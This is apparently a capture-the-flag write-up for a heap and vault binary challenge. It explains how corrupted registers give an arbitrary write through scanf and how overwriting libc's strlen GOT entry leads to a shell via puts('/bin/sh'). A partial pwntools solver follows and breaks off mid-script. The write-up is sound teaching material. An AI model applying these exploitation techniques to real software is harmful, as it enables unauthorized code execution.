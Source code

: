 - just as i said above , writing with format string was a casse-tete . it looked feasable (and it is as the flag later confirmed it) but i didnt even bother looking at it so i needed another way .
- another thing was the onegadgets libc has , they were kinda feasbele except for the $rbp value which for some reason had the value 1 xDDDDDDD . (again the flag confirmed it was the intended solution) . so i didnt bother trying to fix and went searching for another way
- at this point i ran out of options so tried overwriting the registers again , to my surprise , i had a crash in scanf which is caused by the corrupted rbx value . bakctracing led me this part of the code

```nasm
mov    rsi,rbx
lea    rdi,[rip+0x13d5]        # 0x555555556653
call   0x5555555551d0 <__isoc99_scanf@plt>
# x/s 0x555555556653 >> 0x555555556653: "%d%*c"

```

we can see our rbx value is passed as pointer to scanf , so just like that we can get arbitrary int write (only once)

- a target i usually use when we have puts(string_we_can_control) is overwriting the strlen got entry inside libc , because it will call it with the same parameter . luckily for us libc is partial relro so we get away with it this time

- then we do puts("/bin/sh")
- something to note is when running the exploit , we need the random sequence to not have any null bytes , and for some reason my script sometimes crash but whatever works works
- gg

### Solver :

```python
from pwn import *
from time import sleep
context.arch = 'amd64'

'''b* 0x5555555556c0
b* 0x5555555557c4'''
def debug():
        if local<2:
                gdb.attach(p,'''

                        ''')
###############   files setup   ###############
local=len(sys.argv)
exe=ELF("./vault")
libc=ELF("./glibc/libc.so.6")
nc="nc 94.237.50.40 44135"
port=int(nc.split(" ")[2])
host=nc.split(" ")[1]

############### remote or local ###############
if local>1:
        p=remote(host,port)
else:
        p=process([exe.path])

############### helper functions ##############
def send():
        pass

def add(url,password,cond=True):
        if cond:
                p.recvuntil("> ")
        p.sendline("1")
        p.recvuntil("URL: ")
```